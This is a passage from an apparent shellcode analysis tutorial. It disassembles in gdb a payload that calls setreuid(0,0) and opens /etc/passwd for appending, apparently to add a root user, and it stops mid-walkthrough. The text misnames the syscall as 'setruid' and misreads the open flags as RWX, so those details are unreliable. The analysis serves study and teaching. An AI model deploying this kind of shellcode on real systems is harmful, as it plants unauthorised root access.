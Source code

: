 ```nasm
0x0804a07f <+63>: cmp    dh,BYTE PTR cs:[eax]  
0x0804a082 <+66>: cmp    dh,BYTE PTR [eax]  
0x0804a084 <+68>: cmp    bh,BYTE PTR [edx]  
0x0804a086 <+70>: das      
0x0804a087 <+71>: cmp    ch,BYTE PTR [edi]  
0x0804a089 <+73>: bound  ebp,QWORD PTR [ecx+0x6e]  
0x0804a08c <+76>: das      
0x0804a08d <+77>: jae    0x804a0f7  
0x0804a08f <+79>: or     bl,BYTE PTR [ecx-0x75]  
0x0804a092 <+82>: push   ecx  
0x0804a093 <+83>: cld      
0x0804a094 <+84>: push   0x4  
0x0804a096 <+86>: pop    eax  
0x0804a097 <+87>: int    0x80  
0x0804a099 <+89>: push   0x1  
0x0804a09b <+91>: pop    eax  
0x0804a09c <+92>: int    0x80  
0x0804a09e <+94>: add    BYTE PTR [eax],al 
``` 

Awesome, now let's analyze these instructions. We'll be doing the following:  
1\. Put break points at interrupts or calls.  
2\. Observe any JMP behaviour.  
3\. Occasionally analyze instructions manually.  

---

### 2.1. setruid(0,0)

Let's set a break point at `0x804a047`, command: `break *0x804a047`  
  

[![](http://i.imgur.com/md2t3rV.png)](http://i.imgur.com/md2t3rV.png)

`EAX` contains 70, which is for syscall `setruid()`. This function will set the real and effective UID.  
  
**syscall made**: `setruid(NULL, NULL)` 
**Reference:** <http://man7.org/linux/man-pages/man2/setreuid.2.html>   

Since both `EBX` (first argument) and `ECX` (second argument) are zeroes `setruid(0,0)` is executed. This is needed to have permissions to edit `/etc/passwd`.  
 
---

### 2.2 open("/etc/passwd", O_WRONLY|O_APPEND, 0)

  
Next `int 0x80 is at `0x0804a063`, let's break at that.  
  

[![](http://i.imgur.com/VWsv0a2.png)](http://i.imgur.com/VWsv0a2.png)

  
5 is for syscall `open(const char * filename, int flags, int mode)` 
  
**syscall made:** `open("/etc/passwd", O_WRONLY|O_APPEND, 0)`  
**Reference**: [http://man7.org/linux/man-pages/man2/open.2.html ](http://man7.org/linux/man-pages/man2/open.2.html)  
Flags indicate file permissions are RWX.  
